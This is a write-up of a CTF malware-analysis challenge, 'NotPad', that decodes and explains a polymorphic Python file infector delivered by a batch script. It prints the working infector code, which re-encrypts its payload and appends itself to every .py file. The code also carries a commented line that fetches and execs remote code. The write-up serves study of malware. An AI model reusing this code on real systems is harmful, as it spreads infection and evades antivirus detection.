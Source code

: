 ```yaml
---
title: "NotPad"
eventName: "Friendly CTF 2024"
category: "Malware Anlysis"
difficulty: "Hard"
points: 500
---
```


#    NotPad

## Challenge Descritption


While scrolling through my email, I stumbled upon a mail that says I won NotePad premium. I installed it ofc why wouldn't I. But it's just normal notepad :(
    
Flag format: Securinets{Server_flagVar_MaliciousDownloadName_VirusType}

**(Note: Although this is a malware analysis task, this file is totally secure and indeed try executing it. Some antiviruses will flag it as a malware, but, once again, its totally secure to execute it and analyse it.)**

---

## Provided Files

[notPad.bat](/assets/NotPad/notpad/sandbox/notPad.bat)

---

## Initial Analysis

For this challenge, we're provided with the malware inside a sandbox folder. It's windows batch script, and the folder contains some normal python files.

Upon executing the malware, a terminal fires up with a pip install command then notepad opens up and the terminal is closed. The malware will also get deleted in an attempt to hide its trace.

Now let's take a look at our python files. As expected, the files got modifed.

![Modified python files](/assets/friendly/NotPad/files.png)

Taking a look at the script with a text editor, we can see that there's some base64 obfuscated code that gets output to a python file and then executed.

Let's analyse this code. The base64 decrypted payload will be this.

```py
import os
from cryptography.fernet import Fernet


def decrypt(token, key):
   fer = Fernet(key)
   virus = fer.decrypt(token).decode()
   exec(virus)


# START
key = "dsTkswm0UnI9gt4KTTI3zmYGg0KCrCWy-8lvbrdkQek="
token = "gAAAAABnAmBTGqcp5qEzt6jkUd7TeARRgeYfqOSVRpct0qn0WV-RAhVtLjM7456lQJ1LvBdjG3x4OSs1Q2hj7FLoUAo379Tg0f5z4pBEgn22AP0Xb7j_E5244_EWO-QYJb72aptqJzvQ7kXVn29UUzXyBTEHvTz0AyEPzpTpfkDCk3WGUlKAqcU6Dd8LNyU7lIIe_vHd6Z5tbt7Oe0Oha7j-OuN2YLIAwPWyNzCoXVlJlHdywKHlshpgS00jY7BEMlCsM_gZAullCoW1F1tTi4KnjvAnPxE3EO107RKF7-5syOuUFMdFP0vCCsofLWRRPvZIvzjAATnh2OfOL5yf_Ou5qMpWQHNYqWQowmS-i55bFIN0i8bg-Xz_aaqh4Ih783nmezjOCtb7tsTVRTgOtq33Ub2iIttUhLFvgHS9biwWXIjJOjLwPpSMY68-4kuhzKkcF09h5faJZi3hXt1zKyMA4_OeUvNPUis7qbJh-xXy-CL75nEjcP2no0cxPKnbcB6S1-tg7sQgqUYxfRsZ0jaDVr0YaW4Sa6tl_n1qCpodZHykYcNf8L6kdUI_oHwXVrtaw-DVbR3BEqlMoxo2pnrxW74sMs7f3xWSbBBJxs4gCsoOScaMBz-sIXEJjz4NEDb4FXtEbIE0WMOp0v2TfLE0B4F5MqQSqusLqTsPOpKr7LrGa4mUoOFZ84yhZfgJFgo7t41jXG2wrQPi1-42sphHoxILIKvXxbvFdXfr60ypWTCdY4Pp0wEpyWYbg-4Tm5xaRW8FAB2YYR2_PgMTG7LukF7VZ--TkuQopexgDMcKAnDqmZvqg3l18jvLIrIThgJwNnRhoNwELCP3QMnxSPt7xjOxQ5ZQEh2EtV2tl3gQRAKC-TviKi8_RBU7W8XQDNRqe9tzllzL2epm6DVX67K_XgTw75AvlXWdWy6GmjHYep90FMVKXjGm4fAiALS_K2NiMjskgr5c6-cT_HLaXycnfbdQ4RUQCdC5zrhnul7fgYHDdzjm5aVbbInGt_RNGoAJ3FR0h7KEzqCewLZiotFedtuJHFx7OFt_GojOgzSLOz7ijhBxbT3b0Yj6TTVuoU4KTwOWiyElvlbYXbgplltMDHyZV-ACdfqq21cKlRxeXjJO6ZHHbLFQjY-8jQovdKcejiunUXEAM-VRZLB4Kb8WBvN6K9buSFukbMDp6l1nikH8AYEVPbF_l6nGbt74ZC7FxG5j579GbrB7Gg9E1kexIyTj4DelEne84o6ghT4FqWnNNyJyIkkoO65ca3YcxWcLeNrhdwFhroqQEHCyG-XNexzeZvxk8cDx6ZEqpW0ClNcblN6KDc55quUvHsQLVWPFQggfEVukMVnc_VzyMKeGppMuzDkyj2piNPqmVzxZ_3DO4ys22foFriy9oKBdnKv45ie1iKf6LZvWZsdo3Rihmxk-GVf78g=="

def run():
   def execute():
       with open("ByeBye.txt", 'w') as file:
           file.write("You just got hacked.\n")
           flag = "W0W_M4l1ci0us"
           # import requests; exec(requests.get("https://Securinets{Evil_/backdoor.exe").text);

   
   execute()
   global key
   global token

   fer = Fernet(key)
   virus = fer.decrypt(token).decode()

   key = Fernet.generate_key()
   fer = Fernet(key)
   token = fer.encrypt(virus.encode())

   if os.path.basename(os.getcwd()) != "sandbox":
       print("This script can only run in the 'sandbox' directory.")
       exit()
   for root, dirs, files in os.walk("."):
           for file in files:
               if file.endswith(".py"):
                   
                   file_path = os.path.join(root, file)
                   with open(file_path, 'a') as f:
                       f.write("\nimport os\n")
                       f.write("from cryptography.fernet import Fernet\n")
                       f.write("def decrypt(token, key):\n\tfer = Fernet(key)\n\tvirus = fer.decrypt(token).decode()\n\texec(virus)\n")
                       f.write("key = \"{}\"\n".format(key.decode()))
                       f.write("token = \"{}\"\n".format(token.decode()))
                       f.write("\ndecrypt(token, key)\n")

   fname = os.path.basename(__file__)
   lines = []
   with open(fname, 'r') as f:
       lines = f.readlines()
   
   with open('lol', 'w') as f:
       for line in lines:
           if line.startswith("# START"):
               break
           f.write(line)

       f.write("# START\n")
           
       f.write("key = \"{}\"\n".format(key.decode()))
       f.write("token = \"{}\"\n".format(token.decode()))
       f.write("\ndecrypt(token, key)\n")
       


   os.remove(fname)
   os.rename("lol", fname)


run()
```

Well, this some weird code. First it defines a decrypt function that uses Fernet algorithm and executes the decrypted token. We can guess that some malicious payload is embedded there. It then defines the tocken and the key. The run() function contains the malicious script. First, the execute() function will contain the actual malicious code. After its execution, which is downloading a remote script and executing it, we move on to the file propagation logic. Let's first write down the server: **Securinets{Evil_**, the downloaded script name **backdoor.exe** and the commented flag: **W0W_M4l1ci0us**.
The propagation logic is quite simple, it recreates the token by generating a new key, then reads every python file in the local directory and appends the decrypt function and the token/key.

So now, whenever any Python file on the victim's machine is executed, the original code runs without any issues. However, after that, the malicious payload is executed as well, and an antivirus program would likely trust it because it originated from a trusted file. But this isn't the main trick. The most significant characteristic of this malware is that it changes with each execution.

This is the first execution:

![first exec](/assets/friendly/NotPad/modified1.png)

This is the second one:

![second exec](/assets/friendly/NotPad/modified2.png)

As you can see, each time the token or key changes. If the antivirus software begins to suspect the code, it will lose track of it whenever it changes since the hash value will also change. This type of malware is known as **polymorphic viruses**.

*Polymorphic viruses are complex file infectors that can create modified versions of itself to avoid detection yet retain the same basic routines after every infection. To vary their physical file makeup during each infection, polymorphic viruses encrypt their codes and use different encryption keys every time.*

**Flag: Securinets{Evil_W0W_M4l1ci0us_backdoor.exe_Polymorphic}**

### Note

If you want to test out this code and read the values of the tokens use [this decryption sample code](/assets/NotPad/dec.py).

If you're wondering about these lines:

```py
if os.path.basename(os.getcwd()) != "sandbox":
       print("This script can only run in the 'sandbox' directory.")
       exit()
```

**Its purpose is protecting you, the player, in case this malware was executed in a directory other than the sandbox. Please note that you're responsible for your own actions if you decide to remove that function and run the malware.**